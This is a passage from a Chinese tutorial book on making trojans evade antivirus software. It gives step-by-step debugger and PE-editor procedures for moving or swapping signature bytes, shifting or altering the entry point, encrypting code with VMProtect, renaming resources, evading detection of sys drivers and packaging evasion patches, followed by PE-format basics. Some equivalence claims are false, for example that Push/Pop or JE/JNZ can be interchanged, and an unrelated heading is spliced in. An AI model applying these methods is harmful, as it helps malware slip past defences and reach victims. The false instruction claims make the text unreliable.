然后再将“0x0101865E”下面那条空指令汇编为“jmp 0100FAF3”，如图4.102所示，最后我们在这个窗口的任意区域单击右键，依次选择“复制到可执行文件”→“所有修改”，如图4.103所示，并在弹出的对话框中点击“全部复制”按钮，然后在新界面中单击右键，并选择“保存文件”即可，非常简单。


图 4.103

对于“空白区域跳转法”的一点补充：看了上面的操作，不知道大家迷糊没有，这样跳来跳去的究竟是要达到个什么目的呢？其实这仍然是利用杀毒软件特征码查杀的弊端所孕育的一种修改方法。我们知道特征码的定位是有一个偏移量地址的，而我们这样更改完毕以后在原来那个偏移地址里的内容变成了我们的跳转指令，而原来的内容则被我们移动到了另外一个位置，所以杀毒软件自然也就不报毒了。然而由于那两个跳转的存在，所以我们的整个程序仍然是连贯的。整体修改思想如图4.104所示，还不太明白的朋友可以根据这幅插图再理解一下。


图 4.104

也许大家在看完这幅图之后还会看出新的问题，对于这些问题我们在后面的章节将会涉及到，这里先不用太较真。另外有的时候，我们在保存文件之前会出现如图4.105所示的情况，从而导致修改失败，前面所做的工作也就成了无用功。我们应该怎样避免这种情况的发生呢？首先，在我们选定一块空白区域时，可以先选中一段我们将要用到的空间，如图4.106所示。然后在选中区域单击右键，在弹出的菜单中依次选择“复制到可执行文件”→“选择”，看看是否出错，如果没有出错，就证明这段空白区域可用，我们就可以放心地修改了。


图 4.105


图 4.106

另外最近还出现了一种叫做“NOP位移法”的修改方式，使用它要有一个比较苛刻的条件，就是特征码附近（不超过10行）必须要有0x00区域。如果符合条件，操作方法就是将整段代码位移到下面，具体位移几行全凭0x00区域的大小限制与个人爱好，前面空出来的都用“NOP”填充，因此称之为“NOP位移法”。但是这种方法的实用性不好，还存在诸多弊端，所以在这里给大家做一个简单的介绍，让大家了解一下即可，不推荐大家使用。

##### 二、上下互换

其实上下互换与上面介绍的方法操作步骤基本一样，我们仍然以特征码“0000EEEE 00000004”为例讲解。我们通过上面实验，已经知道了将其转换为内存地址后为“0x0100FAEE”，所以这里我们用OllyDbg打开实验文件后，直接按快捷键“Ctrl”+“G”调出“跟随表达式”对话框，并进入地址“0x0100FAEE”，我们首先选择将要互相替换的两端指令，如图4.107所示。然后按快捷键“Ctrl”+“C”复制，并将其保存在记事本中，回到OllyDbg后在那两段代码上面单击右键，在弹出的菜单中依次选择“二进制”→“用00填充”，如图4.108所示。

接下来我们将刚刚记录在记事本里的指令上下调换一下，并按上面讲的方式依次汇编回去，如图4.109所示。最后按照上面的保存方法“右键”→“复制到可执行文件”→“所有修改”→“全部复制”→“保存文件”将其保存。


图 4.107


图 4.108


图 4.109

这种方法利用的就是在汇编对指令上下调换不是很敏感的这一特点来达到免杀的目的，因为上下调换指令之后，虽然程序仍然能正常运行，但是作为特征码的16进制信息已经互相调换了，这对于依靠特征码查杀病毒的杀毒软件来说也就无能为力了。

##### 三、等值替换法

等值替换属于一个涉及知识层次比较深的一种修改特征码的方法，它的原理就是利用汇编语言中相近或有可能达到同一结果的指令，来替换原来已被定义为特征码的指令。但是很显然，这会涉及到很多汇编语言方面的知识，我们的读者显然不可能掌握多少汇编知识，所以这里我给出几个比较常用的例子，大家遇到类似的情况后套用一下即可。更深层的利用要等大家自身汇编功底提高以后，自然而然就会总结出更多的方法。以我个人的经验来说，比较适合初学者的等值替换法主要会用到以下几个指令：

- Push 与 Pop 互换，例如：遇到 Push XXXXX 就可以改为 Pop XXXXX
- JE 与 JNZ 互换，例如：遇到 JE XXXXX 就可以改为 JNZ XXXXX
- Add 与 Sub 互换，例如：Add xxx,5 可以改为 Sub xxx,-5

对于上面两条指令的应用方法非常简单，就是一个替换的问题。我们重点讲解一下“Add与Sub互换”。Add与Sub在汇编里分别是加与减的意思，例如“Add xxx,5”就是将“xxx”加上5的意思，很显然，上面例子中的“Sub xxx,-5”也就是将“xxx”减去-5的意思。但是我们仔细地想一想，加5与减去-5他们在结果上有何不同呢？很显然他们取得的结果肯定是一样的。取得的结果一样，自然也就不会对程序的运行产生影响，因此我们就可以利用这个原理将这两个指令调换使用。但是大家需要注意的是，这里加减运算所应用的都是16进制信息。

为了照顾基础不好的朋友，这里我再以一个实例来讲解一下等值替换法，我们仍然以特征码“0000EEEE 00000004”为例讲解。用OC转换完毕后得到内存地址为“0x0100FAEE”，现在用OllyDbg打开实验文件后，按快捷键“Ctrl”+“G”调出“跟随表达式”对话框，并进入地址“0x0100FAEE”。我们通过分析特征码，不难看出特征码的大小总共包含4个字节，因此我们也可以更改地址“0x0100FAEE”下面的那条指令，我们发现此处的汇编指令为“add al,0”，也就是将al加0的意思。按照上面介绍的方法，我们只需将其改为“sub al,-0”即可，如图4.110所示，因为后面的数为0，所以那个负号加与不加都没什么影响，因此OllyDbg直接将其汇编为“sub al,0”了。最后我们按照前面介绍过的方法保存即可。


讲到这里，我们的第四章也就结束了。如果你一直跟着学了下来，那么你现在已经拥有了基本的免杀技能，对免杀技术也应该有一个初步的了解。相信通过这4章的学习，各位读者也明白了汇编语言与免杀的关系，因此下面几章我们将有针对性地为大家讲解一下比较复杂的免杀技术与必备知识，希望读者继续努力，成功就在眼前！

# 学习活动让评价走向教学深处

> “攻其不备，出其不意。”
> ——孙武《孙子兵法》

其实免杀除了修改特征码外，还有许多方法也可以达到同样的目的，这些方法的应用难度与修改特征码比起来都是比较简单的，但是这些方法的原理却通常都是比较复杂的。如果要区分免杀高手与初学者的话，我认为就是要看其掌握了多少除修改特征码免杀之外的免杀技术。如果我们能利用好这些免杀技术，就会收到出人意料的效果。

从本章开始，我们将学习一些免杀的高级技巧，这些技巧掌握起来应该比较容易，但如果想做到知其然而知其所以然的话可能就会有一定的难度了。为了提高读者的阅读效率，本章内容我会把操作步骤与原理分开进行介绍。如果大家基础不是很好，时间也不是很多，可以只阅读那些介绍操作方法的内容；如果有充足的时间，我还是建议各位读者能够一步步地学习下去。

## 第五章 其他综合免杀技术

### 5.1 改文件头免杀

在战场中讲究兵贵神速，谋则贵在“攻其不备，出其不意”，如果这两者皆有便胜利在望！如果把免杀也想象成一个战场，那么“攻其不备，出其不意”就也同样适用。要想攻其不备，就要拥有灵活的手段。古代兵法有三十六计，那么在免杀中的三十六计又是什么呢？显然就是各种各样的非常规免杀手段了，而本节要为大家介绍的就是其中之一。

#### 5.1.1 操作篇

所谓的改文件头免杀事实上与添加花指令的方法大同小异，因此从本小节内容中大家也可以看出添加花指令的影子，这样也更方便各位读者以后的学习。

打开 OllyDbg 后加载我们要修改的程序，OllyDbg 会自动停在程序的入口点处，如图5.1，将头三句指令与第四条指令所在的地址保存到记事本中留以备用，如图5.2。选中头三条语句并单击鼠标右键，在弹出的菜单中依次选择“二进制”→“用 NOP 填充”，将文件的头三条指令 NOP 掉，如图5.3。


图 5.1


图 5.2　　　　　　　　　　　　图 5.3

然后向下拉动滑块找到如图5.4所示的全00区域，选中一个地址后单击鼠标右键，在弹出的菜单中选择“汇编”，如图5.5，我们也可以直接按快捷键“空格”直接对本行数据进行汇编操作。别忘了将这行的地址0x0000ED26记录在文本文档中留以备用。


图 5.4


图 5.5

执行完汇编操作后OllyDbg会弹出一个对话框，让我们输入相关的汇编指令，现在回到记事本中将我们前面保存的那三条语句依次汇编进去，如图5.6。


图 5.6

现在还不能完成，因为还要加一条跳转语句将其连贯起来，我们选中第4条空白指令并汇编，汇编内容为“jmp 00406870”，如图5.7，其中的那个地址0x00406870就是我一开始叫大家保存的那个地址，忘记的话大家可以看看图5.2确认一下。


图 5.7

选中我们添加的这4行代码，单击鼠标右键，在弹出的菜单中依次选择“复制到可执行文件”→“选择”，如图5.8，然后在弹出的新窗口中单击鼠标右键，并选择“保存文件”进行保存，如图5.9。到此我们的工作还未结束，因为程序的入口点还没有更改，我们使用 PEditor 打开保存后的文件，将其入口点改为0x0000ED26后点击“应用更改”按钮来保存修改，如图5.10。最后双击运行修改完毕的文件以测试是否修改成功，现在我们就成功的将这个文件的文件头移位了。


图 5.8


图 5.9

#### 5.1.2 原理篇

我们这么做的意义何在呢？为什么这样做就能起到免杀的作用呢？首先要告诉大家的是，修改文件头免杀就以现在的情况来看，它的理论意义要大于实际意义，因为据我所知，目前大部分的主流杀毒软件都可以很好地查杀经过这种方法处理的木马了。不过这种修改方法在某些情况下仍然是非常有用的。


图 5.10

首先，如果我们将其文件头的内容删除并将其位移到其它地方后，在物理硬盘中保存的文件肯定也会发生相应的变化。如果杀毒软件恰好将特征码定位在入口点附近的话，那么我们的修改无疑就会收到非常理想的效果。其次，这种方法可以和我们将要涉及到的花指令很好地配合，使得花指令的免杀效果更为明显。另外，修改文件头也会对杀毒软件的内存特征码扫描器产生一定的干扰。由此可以看出，修改文件头的方法还是有用武之地的，它的最大魅力莫过于可以和其它的免杀方法结合使用。

知道了原理，我再带领各位读者简单地了解一下移动文件头的具体修改思想。所谓的“改文件头”其实是非常不容易实现的，因此我们所说的“改文件头”大多数就是指将文件头的部分指令移动，从而达到更改原有文件头结构的目的。要想使文件头移动，就必须找到一块空白区域以保存被移动的那部分指令，并使用工具将此处修改为程序的入口点，也就是让程序由此处开始运行。在我们上面的例子找到的是以 0x0000ED26 开始的一块空白区域，然后将部分文件头代码汇编到此处。既然文件头的部分代码已经被移动到了新的地方，那么原来自然也就没用了，所以直接将其 NOP 掉即可。

经过这样一番修改，程序的运行流程已经改变了。为了使程序仍然可以正常运行，就需要在新位置加一个跳转指令，使其在执行完这部分文件头代码后，跳转到余下未执行的文件头代码处，以使程序前后连贯起来。

但是为了操作的方便与效率，我们实际的操作步骤并不是按照这个顺序来进行的，相信大家在看完上面的操作篇后也应该明白了。如果各位读者对这个流程还是有些模糊的话，可以结合图5.11的说明再次阅读一下本节内容，这样有利于大家透彻地理解其中的思想。

### 5.2 入口点免杀技术

通过上一小节的学习，大家对入口点或多或少的都有了一些了解。在这一小节中我就教大家如何在入口点上动手脚从而躲过杀毒软件的查杀。

#### 5.2.1 操作篇

我将入口点免杀分为两种，一种是入口点加1，另一种是将入口点的汇编指令由“push”“push ebp”更改为“pop ebp”。我们先来看入口点加1的方法。使用PEditor打开我们需要修改的文件，如图5.12，由图中可知此程序的入口点为“0x000024A2”，那么将入口点加1后就变成了“0x000024A3”，因此我们将入口处修改为“0x000024A3”并点击“应用更改”按钮即可，如图5.13。

图 5.12
图 5.13

就这么简单吗？没错，就是这么简单！但有时候我们也会碰到入口点地址的最后一位为非数字的情况，例如“0x00009D2A”，如果各位不会16进制加减法运算的话，可以借助操作系统自带的计算器，打开计算器后在菜单栏里依次选择“查看”→“科学型”，如图5.14，然后选中“十六进制”并进行相应的计算即可，如图5.15。

图 5.14
图 5.15

至于将“push ebp”更改为“pop ebp”就更简单了，我们使用Ollydbg加载相应的程序，选中第一行的“push ebp”，如图5.16，然后按快捷键“空格”开启汇编，并将其更改为“pop ebp”，如图5.17，然后再选中修改的部分并单击鼠标右键，依次选择“复制到可执行文件”→“选择”，在弹出的新窗口中单击鼠标右键，并选择“保存文件”按钮即可保存成功。

图 5.16
图 5.17

#### 5.2.2 原理篇

我们仔细想想将入口点加1后会产生什么样的后果呢？如果入口点为“0x000024A2”时我们看看它执行的是“push ebp”这条语句，如图5.18。但当我们将入口点加1后，也就是变为“0x000024A3”后，它第一条执行的就是“mov ebp,esp”这条指令了，如图5.19。

图 5.18
图 5.19

也许大家对上面所执行的汇编语句还不太明白，我简单解释一下，“push ebp”就是将基址指针寄存器（ebp）压入堆栈；“mov ebp,esp”就是将指针寄存器（esp）的值传递给基址指针寄存器（ebp）。

根据汇编语言与寄存器的特点，在执行传递语句（mov）前即使ebp没有被压栈，它的赋值也依然会成功，因此从某种意义上讲，“push ebp”这句指令是没有用的。所以我们完全可以跳过这条指令，直接从“mov ebp,esp”开始执行，这就是为什么有时候入口点加1会成功，而有时候又会失败的原因。

为了证实这点我们可以做个简单的小实验，现在我们使用Visual Basic 6.0编写的一个小程序，它的入口点为“00401F54”，如图5.20。

现在我们将其入口点加1，修改完毕后保存并运行程序，如图5.21。由此可以看出，入口点加1的方法并不适用于每一个程序，而关于网上那些千奇百怪的解释也是不负责任的简单推理。

图 5.20
图 5.21

因此，我们很容易就能引申到，“push ebp 更改为 pop ebp”的免杀方法中来，这也就是我为什么将本该属于改文件头免杀的内容放到这里的原因所在。既然第一条指令并不是十分重要，那么将其更改也未尝不可，因此将压栈指令改成了相反的出栈指令 pop，这种更改对整个程序来说并不会产生什么影响，但是对于杀毒软件来说就不同了，经过测试得知这个方法对于瑞星的内存查杀有比较理想的效果。导致这种现象的技术细节很难研究，但是可以简单的推论这种更改在程序中起到了花指令的作用。

## 5.3 使用 Vmprotect 加密

Vmprotect 是一款虚拟机加密软件，它可以很好的保护 sys 与 ocx 文件里的部分代码，虽然听起来很神秘，但事实上它就是一个工具，使用起来也非常简单。

#### 5.3.1 操作篇

打开 Vmprotect 后加载我们的目标程序，点击“转储”后来到了如图 5.22 所示的界面。

图 5.22

我们依次点击菜单栏中的“程序”→“前往地址...”，或是点击如图 5.23 所示的按钮呼出“前往地址”，然后在里面填上我们要找的地址。

图 5.23

至于填写什么地址，大家可以自由发挥，既可以填写已经定义好的特征码地址，也可以填写定义的其它地方，但是一定要注意不能填写保存有木马配置信息的地址。

这里我们填写的就是程序的入口点地址，也就是默认的“0x004024A2”，点击“是”后依次选择菜单栏的“工程”→“添加地址”，或是按如图 5.24 所示的按钮来添加我们选定的地址，最后按 F9 快捷键就可以生成加密完毕的文件了。

图 5.24

#### 5.3.2 原理篇

Vmprotect 的保护原理与加壳相似，它的目的也是为了保证软件的安全性。当程序部分指令被 Vmprotect 加密后就会转换为 pcode（此名称有待商榷，笔者不能保证其正确性），在程序运行时会先运行 Vmprotect 附加进去的指令，并凭借此指令将已经加密部分的 pcode 逐渐解密还原，最后再将还原后的程序释放到内存，并将运行流程交给原来程序，此时原程序顺利进行。

由此可见 Vmprotect 的加密特征与“壳”的作用是非常相似的（关于“壳”的解释详见第七章），也就是说 Vmprotect 起到的是一个加密保护的作用，如图 5.25。只不过它可以让你选择程序的哪部分需要加密，而不是直接将整个程序加密。

但是归根结底，它其实就是将我们需要保护的代码加密了，如果我们使用它保护一段特征码，那么理论上杀毒软件应该很难或是根本就检测不到特征码了。当然，就目前的杀毒软件来说，凭借一个简单的加密已经很难起到令人满意的免杀效果了，但这也不失为一个有用的免杀手段。

### 5.4 ResScope 资源修改

这种利用 ResScope 修改资源名的免杀方法，起源于针对金山毒霸的数据流扫描技术的免杀。就目前来看，此方法似乎只对金山毒霸的数据流免杀有些作用。

#### 5.4.1 操作篇

我们使用一个无壳的程序进行实验，使用 ResScope 打开程序，并展开 RCData 树目录，我们可以发现里面有许多资源，如图 5.26。接下来使用 WinHex 打开那个文件，按快捷键“Ctrl + F”调出查找窗口，填入其中一个资源名称，这里我填写的是“dvcla1”，查找方式选择“Unicode”，如图 5.27。

图 5.26
图 5.27

点击“确定”后就搜索来到了如图 5.28 所示的地方，我们将其更改为等字长的任意字符串，我将“dvcla1”更改成了“alpass”，这两个字符串都为 6 个字节，所以更改后不会产生错误，更改完毕后如图 5.29 所示。

图 5.28
图 5.29

现在回到 Restorator 中加载修改过的程序，展开 RCData 树目录后，点击我们修改的资源“dvcla1”，我们会发现它并不能修改，并显示为“损坏的资源”，如图 5.30。如果程序未脱壳或是未完全脱壳的话，也会出现这种情况。既然我们已经成功脱壳了，那么基本上就可以断定是资源损坏了，所以我们只需要修复一下即可。

图 5.30

打开 FixRes 后点击“Fix”，然后加载程序，点击“Fix Resource”按钮就可以成功修复了，如图 5.31。

修复完毕后再次使用 Restorator 加载程序，右键点击 RCData 树目录下的资源“dvcla1”，在弹出的菜单中选择“重命名”，如图 5.32，最后按快捷键“Ctrl + S”保存即可，保存完毕后我们发现程序依然可以正常运行，修改成功！

图 5.31
图 5.32

#### 5.4.2 原理篇

由于金山毒霸的数据流查杀技术并没有对外公布多少信息，而我又不具备黑盒分析的能力，所以很难摸透数据流查杀技术的具体思路，当然技术细节也就更无从谈起了。不过可以初步断定的是，所谓的数据流也就是程序运行中产生的数据，因此我们可以从 Ollydbg 的“数据”窗口中窥探到一些细微的差距。

为了解释为什么更改资源名会躲过数据流的查杀，我做了一个简单的实验：将一个未修改资源的文件与修改了资源名的文件分别载入 Ollydbg，单步跟踪至程序运行为止，然后观察它们“数据”窗口中的异同，如图 5.33。

通过图中的内容不难发现，虽然是同一个程序运行到了同一条指令上，但是它们数据区的内容却不同，我想也许正是因为如此，才导致了数据流查杀的失效。对于数据的修改，也不一定非要修改 RCData 下的资源，其实图标资源等也是可以修改的，只是效果不如修改 RCData 下的资源好而已。

### 5.5 Overlay 附加数据处理及应用

对于附加数据也许各位读者并不怎么了解，其实附加数据离我们是很近的，例如一些木马的配置信息就是保存在附加数据里，如图 5.34 所示就是一个包含附加数据的文件。但是单从免杀角度上来说，附加数据处理并不常用，但是作为一种方法，还是需要简单的为大家介绍一下。

图 5.33
图 5.34

#### 5.5.1 操作篇

- **一、手工操作**

我们将两个文本文档压缩成 RAR 文件，压缩后的大小为 2KB，打开压缩文件后点击“自解压格式”按钮，如图 5.35，并按提示生成自解压文件。现在打开 PE Explorer 并加载我们刚才生成的自解压文件，按快捷键“Ctrl + T”进入区段头界面，如图 5.36。其中的“EOF”“额外数据”就是我们最终要提取的附加数据了，我们通过后面的两个参数可以知道此附加数据的大小为 72C，以及附加数据的偏移地址为 1D000。

图 5.35
图 5.36

接下来使用 WinHex 打开自解压文件，并找到地址 1D000，由图中的“Rar!”不难看到我们已经到达 RAR 文件头处了，如图 5.37。在 1D000处单击鼠标右键，选择“选块开始”，如图 5.38，再到文件尾部以同样的方法选择“选块结尾”，此时这段数据就已经处于选定状态了，最后按快捷键“Ctrl + Shift + N”将其保存为“提取数据.rar”，保存完毕后双击打开，发现与原文件“附加数据.rar”完全一致，如图 5.39。如果想将其替换为其它的 rar 文件，只需将 1D000 后面的数据删除，并替换为我们的数据即可。

图 5.37
图 5.38
图 5.39

- **二、工具操作**

除了手工操作外，我们还可以通过一款名为“PE 文件附加数据读写专家”的工具简单处理，打开“PE 文件附加数据读写专家”，在“原始文件：”处选择我们生成的自解压文件，如图 5.40。

图 5.40

然后点击“附加数据另存为...”按钮就可以将附加数据保存为以“.OKU”结尾的文件了，我们将其后缀名改为“.RAR”后发现与原文件一样。如果想植入文件，我们只需要在“输出文件：”处选择要植入的文件，然后点击“植入附加数据”按钮即可，如图 5.41。

图 5.41

#### 5.5.2 原理篇

所谓的 Overlay 附加数据其实就是将一些数据附加到可执行文件中，并可以供可执行文件调用的一种数据处理方式。其原理可谓简单至极，我就不再多费口舌了。

### 5.6 Sys 免杀修改技巧

经常接触免杀的朋友都知道 SYS 文件的免杀不好做，因为它很“娇气”，更改的稍微不太对劲就会导致它的罢工。虽然几乎所有文件的修改技巧都大同小异，但是这其中还是有一些细微之处的。由于本节不涉及到复杂的原理性问题，所以就不分操作篇与原理篇了。

### 5.6.1 sys 文件的常见免杀方法

对于 sys 文件的特征码定位就不一一叙述了，与 exe 文件完全一样。当我们定位完毕后，要怎样做才能对其进行简单而有效的免杀呢？第一个方法就是利用 Vmprotect 加密了，假如我们找到的特征码在 0x00012345 处，那么将该处的代码加密即可，操作方法与第 5.3 节中所讲述的一样。

还有一个方法就是 OEP 混淆，其实所谓的 OEP 混淆就是利用一款加壳工具 PE Armor 对其进行一定的处理。我们打开 PE Armor 并加载驱动文件，在“设置1”选项中勾选上“OEP 混淆”和“创建备份”，如图 5.42，然后返回到“处理”选项并点击“保护”按钮。

看到这里各位读者应该明白了，其实所谓的常见免杀方法就是利用一些工具进行处理而已，没有什么技术含量，免杀的效果自然也不会太理想，因此我们还应该多学一些手工处理的方法。

### 5.6.2 sys 文件的手工免杀思路

sys 文件的手工免杀方法与 EXE 文件的基本一致，只不过是限制更多了一些而已。对于 sys 文件的修改，类似于特征码区域填 00 的做法是绝对不可取的，这一点还请大家注意。我们只能使用类似于大小写替换、在原有汇编指令上的修改等等，但在修改完毕后一定要使用 PEditor 修复一下校验和，如图 5.43。有的读者朋友也许会感到很困惑：“我现在连汇编语言都还不熟悉，又怎么能在此基础上做一些巧妙的修改呢？”

不可否认，这确实是大家此时所面对的一个比较头痛的问题，我也曾经考虑过在此节加入一个实际操作的实例，但是这样做的话只会浪费大家的时间，并导致大家更为困惑，所以我决定在此处只讲原理。

图 5.42
图 5.43

如果大家想比较熟练的对 sys 文件进行手工免杀，最好的方法就是学习汇编语言，其次是碰碰运气利用大小写修改的方式，这样也许能成功的修改几个。但是只要我们记住修改 sys 文件时所需要注意的事情，那么就可以算是掌握到修改的精要了。

- 在修改时一定要以最小的改动为标准，添加额外的任何汇编指令都是不明智的，通常最好是在原有指令下进行修改，使用功能基本相同或不会改变程序结果的指令来替换原有指令。而且在修改完指令后一定要记得对文件重新进行校验和，方法如上图所讲的一样。
- 尽量不要改变 sys 文件的大小。
- 所有规则只适用于一般情况，如果我们想加壳（sys 文件加 ASPack 壳可以正常运行），那么最好就要同时对其进行加花处理。如果对 sys 文件即加壳又加花，此时就已经同时违反了前两条准则，但是这样做确实也可以起到一定的免杀效果，所以希望读者们也不要被所谓的经验之谈禁锢住自己的思想。

### 5.7 补丁在免杀中的应用

相信各位读者对于补丁都不陌生，系统出漏洞了厂商发布漏洞补丁；软件出现 bug 了作者发布补丁修正错误；有些软件收费了，黑客们会发布破解补丁使其免费……现在轮到我们了，木马被杀毒软件查杀了，我们是不是也应该发布一个补丁使其免杀呢？但是我个人认为补丁的作用在免杀中似乎并不是很实用，因为我们有太多的方法可以使免杀工作一次到位，另外免杀是具有一定的私密性的，如果我们免杀过的木马一经发布，那么距离它被查杀的日子也就不远了，这些因素都不利于免杀补丁的出现，所以我们本节所用的例子更复杂一些。

#### 5.7.1 操作篇

我们使用的补丁工具为 dUP2，它的全名为 diablo2002's Universal Patcher，是一款非常好用的补丁制作软件。补丁制作时一般都需要两个文件，一个是原文件，另一个则是修改后的文件。

双击打开 dUP2，点击右上角的“新建方案”，如图 5.44，在弹出的界面中填入你的版权信息，如图 5.45。

然后点击主界面中的“添加”按钮，在弹出的对话框中选择“[偏移补丁]”，然后点击“确定”，如图 5.46。

图 5.44
图 5.45
图 5.46

现在在列表里就出现了“[偏移补丁]”这条信息，我们选中它后点击右边的“编辑”按钮，如图 5.47，然后就来到了如图 5.48 所示的界面中。在“原始文件”栏选择我们的原文件，在“新的文件”栏选择我们修改后的文件，然后点击右边的“比较”按钮，再点击右下角的“保存”按钮，最后返回到主界面中，点击“创建补丁”按钮就可以成功生成补丁了。

图 5.46

图 5.47

图 5.48

细心的读者不难发现，我们这次制作的其实是一个 RAR 自解压文件的变异补丁，它可以使 RAR 自解压文件变异，从而不被 WinRAR 和杀毒软件所识别，那么它是怎么制作的呢？

我们首先使用 WinHex 打开 RAR 自解压文件“实验【原文件】.exe”，依次选择菜单栏上的“搜索”→“替换 16 进制数值”，如图 5.49。在弹出的对话框的“搜索”处填入 807A0161，在“替换”处填入 807A0160，也就是将最后的 61 改为 60，如图 5.50，然后我们再使用同样的方式将 526172211A70 替换为 526072211A70，最后保存修改后的文件。现在我们找到那个文件，再使用右键单击查看，WinRAR 是不是已经识别不了了，如图 5.51。

#### 5.7.2 原理篇

##### 一、这种补丁方法适用于哪些情况？

通过上面的操作步骤，可以帮助我们使用 dUP2 随意的将一个文件从一种状态更改为另外一种状态，例如我们想制作免杀补丁，那么在“原始文件”处就选择未经过去免杀处理的木马文件，在“新的文件”处选择我们免杀之后的文件，然后再按照上面的步骤进行操作就可以制作出免杀补丁了，其实大家也可以将其理解为一种替换，就是将目标文件替换为我们修改完之后的文件。

##### 二、打了补丁的原理究竟是怎样的？

大家试想一下，如果我们知道一个木马的偏移量为 0x00123456，并将相应位置的内容由 AA 改为 BB 的话这个文件就会免杀成功，那么我们会怎么做呢？是不是使用 WinHex 去修改？其实补丁所做的工作就是将我们的更改自动化了，它通过比较两个文件的差异，然后将其记录下来，因此以后只要再碰到那个文件的话，它就知道应该怎样去修改它，形象的比喻就是将其替换为我们修改之后的文件了。

### 5.8 免杀根基——PE 文件介绍

通过第 3.2 节的学习相信大家对 PE 文件都有了一个基本的了解，在这一节中我们将对 PE 文件深入地介绍一下，以方便各位读者以后的提高和学习。

我们知道，一个可执行文件不但包含可执行的二进制码，还会有例如菜单结构、图标、位图、字符串等信息。PE 文件格式便很好地规定了这些信息在文件中是如何组织的，因此当程序被执行时，系统便会按照 PE 文件的格式约定准确地定位文件中的各种类型的资源，并将其准确地装入内存的不同区域。那么 PE 文件究竟是如何组织存放这些资源的呢？这就要讲到 PE 文件的格式了。

#### 5.8.1 PE 文件的格式

下面让我们抽象地了解一下 PE 文件的构成：

```
DOS MZ header    <<DOS 文件头
DOS stub         <<DOS 加载模块
PE header        <<PE 文件头
Section table    <<区段表
Section 1        <<区段 1
Section 2        <<区段 2
Section ...
Section n        <<区段 n
```

如果要详细地介绍 PE 文件，恐怕就是整本书都介绍不完，所以我只好为大家简单地说明一下了，大家可以把它当作一种知识给储备下来。为了便于读者能够形象地理解，可以参照图 5.52 来阅读下面的内容。

图 5.52

## 第五章 其他综合免杀技术

- **DOS MZ header**：也称之 DOS 文件头，亦或 DOS MZ 文件头，它是一段以关键字 MZ 为开头的数据，偏移量 3C 处包含着 PE 文件头的起始位置信息。
- **DOS stub**：这个区块是以一段 “This program cannot be run in DOS mode” 为标志，当运行环境不匹配时则弹出这句话，对于 WIN32 位的操作系统来讲，存在的意义不大，完全可以删除。
- **PE header**：这就是需要我们着重研究的 PE 文件头了，它是一段以关键字 “PE” 为开头的数据，默认大小为 224 字节，里面包含着许多信息，不过对我们有用的就是描述自身大小的一个字段。
- **Section table**：区段表，也称为节表，这是一段记录着整个文件中区段的大小与位置的信息表。
- **Section 1**：区段，也称之为节，大家可以将其理解为一个个存放数据的抽屉，每个抽屉都有自己不同的名字，往往通过名字就可以判断出里面包含着什么样的数据。由于这些区段的数量并没有限制，所以使用了 “Section 2”、“Section ...”、“Section n” 来表示剩余部分。

之所以说 PE 文件的构成非常科学，从某些方面来讲就是因为它将文件分成了若干个区段（Section），不同的资源被放在了不同的区段中，一个典型的 PE 文件中包含的区段如下：

- `.text`：存放可执行的二进制机器码，这也是我们免杀的主要战场。
- `.data`：初始化的数据块，比如全局变量、宏定义等等。
- `.idata`：可执行文件所使用的动态链接库等外接函数与文件信息。
- `.rsrc`：存放程序的资源，如图标、菜单等。

需要提醒各位读者注意的是，我们虽然可以根据区段名来判定它的用途与功能，但是这并不可靠，因为区段名等信息在编译程序时可以被任意更改与指定，但是大多数情况下没有人会那么做的。

希望通过以上的介绍，大家能对 PE 文件有一个比较宽泛的了解，但是除此之外，对于免杀技术来讲，还有输入表也是我们所必须了解的，而对于输入表，就不这么简单了。

输入表也称为“导入表”，要想了解导入表，我们还要从导入函数讲起。其实大家不用担心，电脑中的术语与你的名字没有什么区别，我们不需要理解它究竟是什么意思，只要知道它代表什么就可以了。

我们知道，如果一个程序需要运行的话，它执行的就是文件内部代码，而导入函数恰恰不属于这个定义，也就是说，导入函数就是代表通过它能被程序调用执行的一段标志，但其执行的代码却不在程序中，往往来源于第三方文件。这些函数的真正可执行代码位于某些 DLL 文件中，调用者的程序中只保留了一些调用这些代码的函数信息，包括需要调用的函数名与 DLL 文件的名称等等。但是对于这些硬盘上静态的 PE 文件来说，在自己被映射到内存之前，无法得知这些导入函数会在哪个地方出现，只有当文件被装入内存后，Windows 才会将相应的 DLL 文件装入，并将导入函数与 DLL 中的实际函数地址联系起来，这便是“动态链接”的概念，也就是为什么 DLL 文件会被称为“动态链接库文件”的原因。

说了这么一大堆，归根结底就是要大家明白，动态链接就是由“导入表”来完成的。那么 PE 文件在被装入内存中究竟会产生什么样的变化，以及要经过一个什么样的流程呢？这就要先简单的向大家介绍一下虚拟内存了。

#### 5.8.2 虚拟内存的简单介绍

内存在计算机中分为物理内存以及虚拟内存，物理内存一般情况下对于我们是不可见的，而且其原理也非常复杂，需要进入内核层（Ring0）才可能与物理内存打交道。通常情况下，我们所看到的全都是虚拟内存，如图 5.53。

图 5.53

通过上图不难发现，系统为每一个正在运行的进程都分配了 4GB 的虚拟内存，虚拟内存与物理内存之间由虚拟内存管理器控制着它们之间的调度，虚拟内存与进程都是用户层的概念，因此是我们可以轻易接触的，而虚拟内存管理器则处于用户层与系统内核层之间，物理内存则完全处于系统内核层。

但是我们粗略想想，就算是一般家用电脑同时运行的进程也要有 20 个，这么算来就需要 80GB 的虚拟内存，但是我们真正的物理内存有可能只有 512MB，使用这么点空间怎么能满足那么巨大的需求呢？其实不然。虚拟内存只是进程的一笔虚拟财富，或者说是虚拟空间。只有当需要进行实际的内存操作时，虚拟内存管理才会将“虚拟地址”与“物理地址”联系起来。

我为大家举一个通俗些的例子：进程就相当于公民，内存管理器就相当于政府，物理内存就相当于这个国家的实际空间，虚拟内存就相当于属于这个国家的公民，对于这个国家全部法律规定可用空间的使用权益。

进程不使用虚拟内存时，这些虚拟内存只是一些地址，是虚拟存在的；人们不去旅游或做其他事情时，这些空间资源都是公用的，是不属于他以及某一个人的。而进程使用虚拟内存时，虽然它理论上可以应用 4GB 的虚拟内存空间，但是内存管理器只会将它目前所需要的虚拟内存地址映射到物理内存地址，而且它们之间没有什么必然的联系：人们想要出游，虽然他可以到全国任何一处游览并暂时居住，但是政府只保证他目前想去的地点能得到游览授权，而不能因此将全国的游览空间与住宿空间向其开放。并且他目前所浏览的景区与全国可以浏览的景区也没有必然的联系。操作系统的实际物理空间虽然远远小于进程的虚拟内存空间之和，但仍能正常调度：全国的实际可用空间虽然远远小于 13 亿公民理论可使用的生存空间之和，但是政府仍然可以正常调度。

讲到这里不知各位读者是否明白了虚拟内存的含义，但这里需要注意的是，Windows 系统中还有一个叫硬盘虚拟内存的概念，如图 5.54。

